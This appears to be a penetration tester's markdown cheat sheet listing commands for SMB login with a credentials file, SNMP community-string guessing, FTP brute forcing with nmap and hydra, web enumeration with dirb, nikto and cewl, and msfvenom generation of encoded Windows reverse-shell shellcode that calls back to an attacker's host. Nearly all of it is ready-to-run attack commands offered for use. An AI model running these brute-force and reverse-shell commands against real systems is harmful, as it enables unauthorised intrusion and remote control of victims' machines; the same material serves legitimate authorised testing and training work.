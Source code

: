 ### smbclient

#### example with creds

smbclient -A credentials.txt //10.123.42.144/Doc

where credentials.txt is:
```bash
username = <value>
password = <value>
domain   = <value>
```


```bash
echo public > community
echo private >> community
echo manager >> community
onesixtyone -c community IP
```


# Checks

* 21/tcp
	* ftp anonymous
		* download/upload+rev-shell
	* ftp brufeforce
		* nmap --script ftp-brute -p 21 IP
		* hydra -t 1 -L wordlist-user -P wordlist-pass -vV IP ftp
		* https://github.com/arjnklc/FTP-Brute-Forcer/blob/master/ftp_brute_forcer.py
* 80/tcp, 443/tcp, web
	* dirb - subpaths, files
	* nikto - vuln, paths
	* cewl - wordlist 

* 139/tcp, 445/tcp
	* smb-security

# Shellcode generation
## windows reverse shell - exploitation - 32 bit
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

## windows reverse shell - exploitation - 32 bit exit as a thread
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```
